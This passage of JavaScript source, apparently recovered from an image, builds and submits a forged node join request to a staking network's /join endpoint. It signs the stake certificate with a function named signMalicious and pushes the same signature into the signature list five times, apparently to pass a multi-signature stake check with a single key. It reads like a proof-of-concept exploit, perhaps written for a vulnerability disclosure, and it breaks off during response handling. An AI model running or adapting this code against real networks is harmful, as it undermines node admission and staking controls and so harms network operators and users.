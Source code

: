 ```js
    this.mainLogger.error(
      `Error in verifying object ${Utils.safeStringify(obj)}`,
      e
    );
    return false;
  }
};

const createJoinRequestPayload = async (joinRequestTimestamp) => {
  // Create the join request payload
  let joinRequestPayload = {
    nodeInfo: {
      externalIp: "127.0.0.1",
      externalPort: 9003,
      internalIp: "0.0.0.0",
      internalPort: 10003,
      activeTimestamp: 55,
      address: "testtest",
      joinRequestTimestamp: joinRequestTimestamp,
      publicKey: newKeyPair.publicKey,
    },
    selectionNum: "testtest",
    cycleMarker: "55",
    proofOfWork: "testtest",
    version: "1.11.3",
    appJoinData: {
      version: "1.11.3",
      stakeCert: {
        nominee: newKeyPair.publicKey,
        stake: { dataType: "bi", value: "8ac7230489e80000" },
        signs: [],
      },
    },
  };
  const stakeCertSign = signMalicious(
    joinRequestPayload.appJoinData.stakeCert,
    nodeKeyPair
  ).sign;
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload = await sign(joinRequestPayload, newKeyPair);
  return joinRequestPayload;
};

// Function to submit the join request
const submitJoinRequest = async () => {
  try {
    const joinRequestPayload = await createJoinRequestPayload(
      (await fetchStartField()) + 29
    );
    const response = await fetch("http://127.0.0.1:9001/join", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify(joinRequestPayload),
    });

    if (!response.ok) {
      // Read the response body
```